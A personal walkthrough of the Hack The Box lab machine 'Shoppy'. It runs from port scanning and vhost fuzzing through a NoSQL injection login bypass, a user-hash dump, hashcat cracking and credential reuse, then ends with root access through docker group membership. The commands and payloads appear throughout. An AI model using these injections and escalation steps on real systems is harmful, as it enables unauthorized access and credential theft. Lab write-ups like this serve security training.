

## Port Scan
1. TCP Port Scan
```sh
sudo nmap -Pn 10.129.227.233 -sS -p- --min-rate 20000 -oN nmap/allTcpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-07 00:16 EST
Warning: 10.129.227.233 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.227.233
Host is up (0.18s latency).
Not shown: 64354 closed tcp ports (reset), 1178 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat

Nmap done: 1 IP address (1 host up) scanned in 12.24 seconds
```
2. UDP Port scan
```sh
sudo nmap -Pn 10.129.227.233 -sU -p- --min-rate 20000 -oN nmap/allUdpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-07 00:16 EST
Warning: 10.129.227.233 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.227.233
Host is up (0.19s latency).
All 65535 scanned ports on 10.129.227.233 are in ignored states.
Not shown: 65504 open|filtered udp ports (no-response), 31 closed udp ports (port-unreach)

Nmap done: 1 IP address (1 host up) scanned in 38.14 seconds
```
3. Script and version scan
```
# Nmap 7.95 scan initiated Sat Feb  7 00:18:15 2026 as: /usr/lib/nmap/nmap -Pn -sCV -p22,80,9093 --min-rate 20000 -oN nmap/scriptVersionScan.nmap 10.129.227.233
Nmap scan report for 10.129.227.233
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
9093/tcp open  http    Golang net/http server
|_http-title: Site doesn't have a title (text/plain; version=0.0.4; charset=utf-8).
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Sat, 07 Feb 2026 05:21:35 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 6
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 6
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 9.518e-06
|     go_gc_duration_seconds{quantile="0.25"} 3.1209e-05
|_    go_gc_dura
|_http-trane-info: Problem with XML parsing of /evox/about
```
## Web Application Research
1. It is a single page website
	
2. Subdomain fuzzzing
```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://shoppy.htb -H "Host:FUZZ.shoppy.htb" -fs 169
```
Output:
```
:: Progress: [4989/4989] :: Job [1/1] :: 135 req/sec :: Duration: [0:00:23] :: Errors: 0 ::
```
3. Root fuzzing
```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://shoppy.htb/exports/FUZZ -ic -o exports_dir_fuzz.txt 
```
Output:
```
http://shoppy.htb/
http://shoppy.htb/admin
http://shoppy.htb/assets
http://shoppy.htb/css
http://shoppy.htb/exports
http://shoppy.htb/fonts
http://shoppy.htb/images
http://shoppy.htb/js
http://shoppy.htb/login
```
4. Ok interesting, I cheated a little. Apparently, we need to find a mattermost virtual host. We can use this wordlist to fuzz for the name
```
fuf -w /opt/SecLists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt:FUZZ -u http://10.129.227.233 -H "Host:FUZZ.shoppy.htb" -fw 5
```
Output:
```
mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 175ms]

```
5. Got stuck again. The application allows us to send JSON content.
```http
POST /login HTTP/1.1

Host: shoppy.htb

{"username":"123","password": "123"}
```
Output:
```http
HTTP/1.1 302 Found
```
6. That was a dead end too. Apparently, we need to inject `'+||+'a'=='a` but I forgot to insert a valid username in front. The valid payload is
```
POST /login HTTP/1.1

Host: shoppy.htb

username=admin'+||+'a'=='a&password=1
```
7. The application gives the ability to query users.
```
http://shoppy.htb/admin/search-users?username=admin
```
If it is valid, we get to export information
```
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"}]
```
8. Let's inject the same payload.
```
http://shoppy.htb/admin/search-users?username=%27+||+%27a%27%3d%3d%27a
```
- `' || 'a'=='a`
Output:
```json
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```
- Looks like MD5
9. To crack it,
```
hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt --username
```
Output:
```
josh:6ebcea65320589ca4f2f1ce039975995:remembermethisway
```
- We cannot use it to SSH
10. We can use the creds to log into mattermost
11. There are two users
```
jess@shoppy.htb
jaeger@shoppy.htb (System Admin)
```
12. There are leaked credentials in the `Deploy Machine` chatroom
```
username: jaeger
password: Sh0ppyBest@pp!
```
13. We can use this creds to log into SSH
## Shell as Jaegar
1. We can read the MongoDB password here
```js
const mongoUri = 'mongodb://127.0.0.1/shoppy';

app.use(session({
  secret: 'DJ7aAdnkCZs9DZWx',
  store: MongoStore.create({mongoUrl: mongoUri}),
  resave: false,
  saveUninitialized: false
}));  
```
2. Sudo privileges
```
sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager

```
- We can run `password-manager` as deploy
2. ID
```
id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)
```
3. Hostname
```
hostname
shoppy
```
6. OS release
```
cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```
7. We can execute the binary like this.
```
sudo -u deploy /home/deploy/password-manager
```
- But a master password is required
8. I decided to strings the executable.
```
u/UH
[]A\A]A^A_
Welcome to Josh password manager!
Please enter your master password: 
Access granted! Here is creds !
cat /home/deploy/creds.txt
Access denied! This incident will be reported !
;*3$"
zPLR
GCC: (Debian 10.2.1-6) 10.2.1 20210110
crtstuff.c
```
- I can see our constants here, but none is the master password
9. `xxd` revealed something interesting
```
00002010: 5765 6c63 6f6d 6520 746f 204a 6f73 6820  Welcome to Josh 
00002020: 7061 7373 776f 7264 206d 616e 6167 6572  password manager
00002030: 2100 0000 0000 0000 506c 6561 7365 2065  !.......Please e
00002040: 6e74 6572 2079 6f75 7220 6d61 7374 6572  nter your master
00002050: 2070 6173 7377 6f72 643a 2000 0053 0061   password: ..S.a
00002060: 006d 0070 006c 0065 0000 0000 0000 0000  .m.p.l.e........
00002070: 4163 6365 7373 2067 7261 6e74 6564 2120  Access granted! 
00002080: 4865 7265 2069 7320 6372 6564 7320 2100  Here is creds !.
00002090: 6361 7420 2f68 6f6d 652f 6465 706c 6f79  cat /home/deploy
000020a0: 2f63 7265 6473 2e74 7874 0000 0000 0000  /creds.txt......
000020b0: 4163 6365 7373 2064 656e 6965 6421 2054  Access denied! T
000020c0: 6869 7320 696e 6369 6465 6e74 2077 696c  his incident wil
000020d0: 6c20 6265 2072 6570 6f72 7465 6420 2100  l be reported !.
```
- Why is Sample being separated by NULL bytes? Hmm suspicious
10. Turns out, it is the password.
```
sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```
11. We can change users like this
```
su deploy
Password: 
```
Output:
```
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```
## Shell as Deploy
1. Id
```
id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```
- Interesting
2. To list the current images,
```
docker images
```
Output:
```
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   3 years ago   5.53MB
```
3. We can mount the root directory in a container we spawn.
```
docker run -v /root:/mnt -it alpine:latest sh
```
4. Finally, we can read the root.txt.
